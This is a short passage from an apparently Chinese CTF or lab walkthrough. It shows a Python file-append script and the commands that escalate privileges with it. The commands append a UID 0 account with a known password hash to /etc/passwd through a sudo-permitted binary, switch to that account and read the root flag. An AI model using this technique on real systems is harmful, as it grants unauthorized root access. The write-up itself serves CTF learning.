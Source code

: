 ```
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

作用是读取第一个参数文件的，添加到第二哥参数文件中，可以用来修改/etc/passwd

```
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```

![image-20211007234114035](/assets/img/image-20211007234114035.png)


